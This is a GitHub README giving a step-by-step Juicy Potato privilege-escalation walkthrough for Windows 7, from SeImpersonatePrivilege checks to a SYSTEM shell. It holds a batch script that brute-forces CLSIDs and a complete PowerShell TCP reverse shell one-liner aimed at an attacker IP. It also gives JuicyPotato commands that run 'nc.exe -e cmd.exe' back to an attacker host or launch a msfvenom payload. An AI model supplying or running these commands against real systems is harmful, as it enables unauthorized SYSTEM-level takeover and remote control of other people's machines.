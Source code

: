 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

Resource: https://github.com/ohpe/juicy-potato/tree/master/CLSID <link>

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is x32-bit arch. Grab the Juicy Potato binary for 32-bit os.

Resource: https://github.com/k4sth4/Juicy-Potato <link>

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Bob\Desktop\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Bob\\Desktop\\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
# Changes to Make
Note: C:\\Users\\Bob\\Desktop\\CLSID.list and C:\\Users\\Bob\\Desktop\\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


# Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

# Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



# Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
        powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
        Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

## Reverse Shell

# Using Powershell shell.bat

```markdown

c:\\Users\\Bob\\Desktop\\JuicyPotato.exe -l 1234 -p c:\\Users\\Bob\\Desktop\\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 

```

# Using nc.exe

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\nc.exe -e cmd.exe 192.168.x.x 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}

```

# Using shell.exe 

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

# Get Reverse Shell as SYSTEM

![OnPaste 20220606-195431](https://user-images.githubusercontent.com/106917304/172180726-4bdb1672-1a35-4e06-8458-a873b49c6926.png)


